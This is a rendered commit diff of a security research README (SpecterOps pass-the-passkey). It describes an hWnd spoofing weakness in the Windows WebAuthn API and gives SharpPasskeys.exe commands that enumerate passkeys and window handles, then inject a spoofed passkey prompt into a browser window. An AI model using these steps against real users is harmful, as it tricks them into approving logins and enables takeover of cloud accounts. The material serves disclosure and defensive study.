

Before and after one commit to SpecterOps/pass-the-passkey, a Markdown page: README.md, 3 parts joined by grey strips. Shown at 81% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
HWND spoofing description
Co-authored-by: Copilot <copilot@github.com>

````diff
--- a/README.md
+++ b/README.md
@@ -182,7 +201,7 @@ We see the browser process ID and user SID being included, but the most importan
 }
 ```
 
-After decoding the cliendDataJSON field from Base64Url format, we obtain yet another JSON structure:
+After decoding the `clientDataJSON` field from Base64Url format, we obtain another JSON structure:
 
 ```json
 {
@@ -494,7 +512,7 @@ and produces a WebAuthn assertion signature.
 
 The function is defined as follows:
 
-```c
+```cpp
 HRESULT
 WINAPI
 WebAuthNAuthenticatorGetAssertion(
@@ -505,16 +523,16 @@ WebAuthNAuthenticatorGetAssertion(
   _Outptr_result_maybenull_ PWEBAUTHN_ASSERTION               *ppWebAuthNAssertion);
 ```
 
-The `hWnd` parameter is the handle for the window that will be used to display the UI.
-We have identified that this parameter is not properly validated, allowing attackers to inject the passkey authentication prompt
+The `hWnd` parameter is the handle of the window that will be used to display the UI.
+We found that this parameter is not properly validated, allowing attackers to inject the passkey authentication prompt
 into the context of another application, e.g., a web browser, even if the application is running under a different user account.
 Malicious actors can abuse this vulnerability to trick users into confirming passkey authentication requests
 that they would otherwise ignore if they were displayed in the context of an unfamiliar application.
-The attack may result in unauthorized access to the user's cloud accounts like Microsoft Entra ID or GitHub.
+The attack may result in unauthorized access to the user's cloud accounts, such as Microsoft Entra ID or GitHub.
 
 #### Requirements
 
-The adversary must be able to execute code on the target Windows 11 machine, e.g., through a malicious application delivered through a phishing campaign
+The adversary must be able to execute code on the target Windows 11 machine, e.g., through a malicious application delivered in a phishing campaign
 or using PowerShell Remoting.
 Local administrator privileges are not required.
 
@@ -525,7 +543,7 @@ The attack also requires user interaction, as the victim needs to confirm the pa
 1. A C2 agent would first need to enumerate the available passkeys:
 
 ```cmd
-Passkeys.exe list hello
+SharpPasskeys.exe list hello
 ```
 
 Sample output:
@@ -540,29 +558,30 @@ Sample output:
 +---------------------+---------------------+---------------------------------------------+
 ```
 
-2. As the next step, the attacker would need to correlate the retrieved passkeys with the running processes to find the window handle of the target application, e.g., a web browser.
+2. Next, the attacker would need to correlate the retrieved passkeys with the running processes to find the window handle of the target application, e.g., a web browser.
 
 ```cmd
-Passkeys.exe list hwnd
+SharpPasskeys.exe list hwnd
 ```
 
 Sample output:
 
 ```txt
-+-----------------------+------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------+
-| Process Name          | Handle     | Window Title                                                                                                                                                 |
-+-----------------------+------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------+
-| msedge                |    2432736 | WebAuthNAuthenticatorGetAssertion - Win32 apps | Microsoft Learn and 22 more pages - Work - Microsoft? Edge                                                  |
-| olk                   |     132206 | Mail - Michael Grafnetter - Outlook                                                                                                                          |
-| POWERPNT              |   28185102 | Pass-the-Passkey.pptx - PowerPoint                                                                                                                           |
-| WindowsTerminal       |   12587510 | Administrator: Command Prompt              |
-| Zoom                  |    8526462 |                                                                                                                                                              |
-| Zoom                  |    8328550 | Zoom Workplace                                                                                                                                               |
-+-----------------------+------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------+
++------------------+------------+---------------------------------------------------------------+
+| Process Name     | Handle     | Window Title                                                  |
++------------------+------------+---------------------------------------------------------------+
+| msedge           |    2432736 | Microsoft - AI, Cloud, Productivity, Computing, Gaming & Apps |
+| olk              |     132206 | Mail - John Doe - Outlook                                     |
+| POWERPNT         |   28185102 | Pass-the-Passkey.pptx - PowerPoint                            |
+| WindowsTerminal  |   12587510 | Administrator: Command Prompt                                 |
++------------------+------------+---------------------------------------------------------------+
 ```
 
+3. Finally, the adversary can inject the passkey authentication prompt into the context of the target application
+   by providing the corresponding window handle in the `hWnd` parameter of the `WebAuthNAuthenticatorGetAssertion` function:
+
 ```cmd
-Passkeys.exe prompt --relying-party login.microsoft.com --challenge abcd --hwnd 330730
+SharpPasskeys.exe prompt --relying-party github.com --challenge HvxwEkeqxPh-fB_c-wqXvfXiFXiamcEGluyRXSo2XxY --hwnd 2432736
 ```
 
 ![Credential UI Window Handle Injection](Assets/credential-ui-window-handle-injection.png)
@@ -599,7 +621,7 @@ The Passkey Injector tool also supports automating this process by directly invo
 ![OpenID Connect Token Response UI](Assets/oidc-token-response.png)
 
 We did not want to limit this functionality to injected WebAuthn assertions only.
-Passkey Injector tool can therefore invoke the built-in Passkey authentication prompt as well.
+The Passkey Injector tool can therefore invoke the built-in passkey authentication prompt as well.
 
 ![Fallback to built-in WebAuthn prompt](Assets/passkey-authentication-fallback.png)
 
````
Also changed, not shown: other parts of README.md (+76 -61 lines), Assets/passkey-ui.png (added), Assets/powershell.png (added).
